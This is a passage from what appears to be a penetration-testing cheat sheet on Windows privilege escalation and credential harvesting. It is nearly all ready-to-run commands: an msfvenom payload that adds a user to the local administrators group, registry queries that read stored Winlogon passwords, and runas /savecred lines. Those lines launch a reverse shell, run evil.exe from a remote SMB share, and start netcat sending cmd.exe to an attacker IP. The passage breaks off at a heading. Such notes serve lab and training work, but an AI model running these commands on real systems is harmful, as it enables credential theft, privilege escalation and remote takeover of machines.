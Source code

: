 ```bash
msfvenom -p windows/exec CMD="net localgroup administrators username /add" -f exe-service -o service.exe
```

## Windows Credentials

{% embed url="https://academy.hackthebox.com/module/67/section/640" %}

### Winlogon Credentials

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr /i "DefaultDomainName DefaultUserName DefaultPassword AltDefaultDomainName AltDefaultUserName AltDefaultPassword LastUsedUsername"

#Other way
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultDomainName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultPassword
```

### Saved Creds

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:

```
cmdkey /list
```

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the `runas` command and the `/savecred` option, as seen below.

```
runas /savecred /user:admin C:\temp\reverse.exe
runas /savecred /user:admin cmd.exe
```

The following example is calling a remote binary via an SMB share.

```bash
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
```

Using `runas` with a provided set of credential.

```bash
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

### PowerShell Credentials
